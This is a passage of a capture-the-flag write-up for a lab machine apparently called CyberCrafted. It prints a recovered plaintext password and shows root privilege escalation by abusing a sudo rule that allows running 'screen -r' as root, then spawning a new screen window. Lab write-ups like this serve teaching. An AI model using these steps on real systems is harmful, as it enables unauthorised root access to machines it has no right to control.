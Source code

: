 ```bash
[2021/10/15 17:13:45] [BUKKIT-SERVER] Startet LoginSystem!
[2021/10/15 20:36:21] [BUKKIT-SERVER] Startet LoginSystem!
[2021/10/15 21:00:43] [BUKKIT-SERVER] Startet LoginSystem!
[2023/11/23 06:18:26] [BUKKIT-SERVER] Startet LoginSystem!

# creds
cybercrafted : JavaEdition>Bedrock
# We can switch to his acct using "su".
```

### Priv Esc to root

`sudo -l` - we can run cmd as root.

```
Matching Defaults entries for cybercrafted on cybercrafted:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User cybercrafted may run the following commands on cybercrafted:
    (root) /usr/bin/screen -r cybercrafted
```

This user is allowed to run the command `/usr/bin/screen -r cybercrafted` with sudo. Screen is a windows manager for terminals much like tmux. So if we can use sudo to launch screen, we should be able to spawn terminals from screen which should inherit root privileges.

Searching [online](https://linuxize.com/post/how-to-use-linux-screen/) we can find what commands to use to spawn shells from screen or we can use the linux manual to dig through the commands (`man screen`). When we run the command, we are reattaching to an existing session (`-r cybercrafted`) and from there all we have to is spawn new window with a shell (ctl+a c).

We can run the following service session as root. Let's connect to the session as the root user by running by running the following command:

```bash
sudo /usr/bin/screen -r cybercrafted
```

We can see that we are in the Minecraft servers in-game console from which an admin can monitor the server.

<figure><img src="https://m4dd.rocks/writeups/cybercrafted/assets/img/cc-console.png" alt=""><figcaption></figcaption></figure>

We can escape from the in-game console in multiple ways. I will be using a default screen shortcut to go to the next window "`CTRL + A + C`". This will drop us in a system shell as the root user.

Done!


